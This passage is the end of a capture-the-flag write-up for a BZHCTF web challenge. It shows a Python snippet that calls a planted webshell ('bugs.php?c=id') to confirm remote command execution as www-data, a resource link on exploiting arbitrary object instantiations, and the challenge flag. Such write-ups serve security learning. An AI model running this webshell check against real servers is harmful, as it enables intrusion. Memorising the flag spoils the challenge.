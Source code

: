 ```python
    exec_url = f"{infos.url}bugs.php?c=id"
    r = requests.get(exec_url)

    if "www-data" in r.text:
        print(f"[+] Got www-data for URL {exec_url}")
    else:
        print(f"[+] Cannot win race for URL {exec_url}")
```

### Resources

https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/

#### Flag

`BZHCTF{1m4g1ck_1s_tr4g1ck_4g41n_!!}`

Auteur du challenge : [Worty](https://twitter.com/_worty)
